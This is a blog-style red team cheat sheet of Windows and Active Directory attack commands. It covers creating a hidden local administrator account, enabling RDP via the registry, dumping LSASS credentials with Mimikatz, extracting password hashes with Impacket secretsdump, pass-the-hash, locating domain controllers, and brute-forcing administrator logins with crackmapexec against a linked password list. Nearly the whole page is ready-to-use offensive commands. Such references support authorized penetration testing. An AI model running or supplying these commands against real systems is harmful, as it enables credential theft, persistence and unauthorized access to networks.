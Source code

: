 ```yaml
---
layout: blog
title: Red Team Field Manual
tags: RedTeam, ActiveDirectory
comments: true
date: 2022-12-10
---
```


# Red Team Field Manual
<br />
### Create Local User And Add To Administrators Group
    net user <Username> <Password> /add>
    
    net localgroup Administrators <Username> /add   
  
### List Users In Active Directory

    net users /domain

### Enable RDP From Regedit

    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

### Disable RDP From Regedit

    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
    
### Lsass Dump via Mimikatz

    privilege::debug
    sekurlsa::minidump file.DMP (If there is a DMP file)
    sekurlsa::logonpasswords full
    
### Impacket secretsdump - DUMP Local User Hashes via Domain Creds
 
    python3 secretsdump.py <Domain>/<Domain Username>:<Password>@<IP> #Enter with Domain Creds
    
### Impacket secretsdump - DUMP Local User Hashes via Domain NTLM Hash

    python3 secretsdump.py <Domain>/<Domain Username>@<IP> -hashes <NTLM Hash> #Enter with NTLM Hash
    
### Impacket secretsdump - DUMP Local User Hashes via Local User Creds
    
    python3 secretsdump.py <Computer_Hostname>/<Local Username>:<Password>@<IP> #Enter with Local Creds
    
### Impacket secretsdump - DUMP Local User Hashes via Local User Hash

    python3 secretsdump.py <Computer_Hostname>/<Local Username>@<IP> -hashes <NTLM Hash> #Enter with NTLM Hash

### Find Domain Controller In BlackBox Testing

    nmap -p389,636 --open -iL <IP_List_File>  #389(LDAP) / 636(LDAP-SSL)
    
    -> If you have a domain joined Windows Machine
    nslookup -querytype=SRV _LDAP._TCP.DC._MSDCS.<domain_name>
    
    nltest /server:<IP> /dclist:<domain_name>
    
    (From PS) [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().DomainControllers
    
### Crackmapexec Local Administrator Brute Force Attack

    crackmapexec smb <IP List File> -u Administrator -p <Password List File> -d .

[My Own Password Brute Force List](https://github.com/br33z3/br33z3.github.io/blob/main/assets/static/pass.txt)
    
### Find All Domain Groups

    Get-ADGroup -Filter *

    

